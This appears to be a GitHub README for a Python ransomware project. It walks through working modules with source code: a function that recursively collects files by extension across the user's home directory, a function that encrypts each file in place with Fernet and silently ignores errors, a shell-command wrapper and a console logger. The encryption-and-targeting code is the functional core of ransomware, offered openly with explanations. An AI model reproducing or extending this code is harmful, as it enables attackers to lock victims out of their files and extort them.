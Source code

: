 # RANSOMWARE
Ransomware is a type of malicious software often used to encrypt files on a user's computer and demand a ransom to decrypt them.

## MODULES
### ENCDEC
```python
def Process_Files(Private: Fernet, mode: str):
    for _, files in List_Files().items():
        for file in files:
            temp_file = file + '.temp'
            try:
                with open(file, 'rb') as original_file, open(temp_file, 'wb', buffering=4096*1024) as temp_file:
                    with mmap.mmap(original_file.fileno(), 0, access=mmap.ACCESS_READ) as mm:
                        offset = 0
                        while offset < len(mm):
                            chunk = mm[offset:offset + 4096 * 1024]
                            if not chunk:
                                break
                            processed_chunk = Private.encrypt(chunk) if mode == 'encrypt' else Private.decrypt(chunk)
                            temp_file.write(processed_chunk)
                            offset += len(chunk)
                shutil.move(temp_file.name, file)
            except Exception as e: pass
            finally:
                if os.path.exists(temp_file.name):
                    os.remove(temp_file.name)
```
- The `Process_Files` function takes two parameters: `Private`, a `Fernet` object used for encryption and decryption, and mode, a string specifying the operation mode (`encrypt` or `decrypt`).
- This function iterates through all files returned by the `List_Files` function.
- For each file, it creates a temporary file with the name of the original file appended with *.temp*.
- It opens the original file for reading and the temporary file for writing, with a buffer size of 4096*1024 bytes. It uses mmap to map the original file into memory. 
- Then it reads and processes each `chunk` of the original file, with the `chunk` size being 4096*1024 bytes.
- Each `chunk` is then encrypted (if mode is `encrypt`) or decrypted (if mode is `decrypt`) using the `Fernet` object, and then written to the temporary file.
- Once all chunks have been processed, the temporary file is renamed to the name of the original file, replacing the original file. If an error occurs during this process, the function will ignore the error and continue with the next file. 
- Finally, if the temporary file still exists, it will be deleted.
```python
def List_Files() -> dict:
    with open('scripts/extensions.yaml', 'r') as file:
        exts = Safe_Load(file)

    file_categories = {category: [] for category in exts}
    extcategory = {ext: category for category, ext_list in exts.items() for ext in ext_list}

    for entry in Path.home().rglob('*'):
        if entry.is_file() and (ext := entry.suffix.lower()) in extcategory:
            file_categories[extcategory[ext]].append(str(entry))

    return file_categories
```
- The function opens the file '*scripts/extensions.yaml*' for reading and uses the `Safe_Load(file)` function to parse *YAML* data from this file. The result is stored in the variable exts.
- It creates a dictionary `file_categories` with keys as categories from exts and values as empty lists. It also creates a dictionary extcategory where each file extension in `exts` is a key and its corresponding category is the value.
- Then it iterates through all files in the user's home directory. If an entry is a file and its extension (converted to lowercase) is in `extcategory`, the file is added to the corresponding category in `file_categories`.
### SYSTEM
```python
class System:
    def __init__(self) -> None:
        self.Windows = _os_name == 'nt'
 
    def Init(self) -> None:
        _system('')

    def Clear(self) -> None:
        return _system("cls" if self.Windows else "clear")

    def Title(self, title: str):
        if self.Windows:
            return _system(f"title {title}")

    def Size(self, x: int, y: int) -> None:
        if self.Windows:
            return _system(f"mode {x}, {y}")
    
    def Reset(self) -> None:
        execv(executable, [executable] + argv) 
    
    def Command(command: str):
        return _system(command)
```
    1 variable:
        Windows    |     Indicates whether the user is using the Windows operating system or not
    7 functions:
        Init()     |     Initializes the terminal to enable color usage
        Clear()    |     Clears the terminal
        Title()    |     Sets the title of the terminal, only applicable for Windows
        Size()     |     Sets the size of the terminal, only applicable for Windows
        Reset()    |     Restarts the current program
        Command()  |     Executes a shell command on the computer's system
```python
def Console(ip: str, msg: str, color: str) -> None:
    color_code = getattr(Col, color)
    message = f" [{Col.Green}{ip}{Col.White}] --> {color_code}{msg}{Col.White}."
    print(message)
```

- The `getattr` function is used to retrieve the value of the color attribute from the `Col` object.
- It creates a formatted string and prints the formatted string.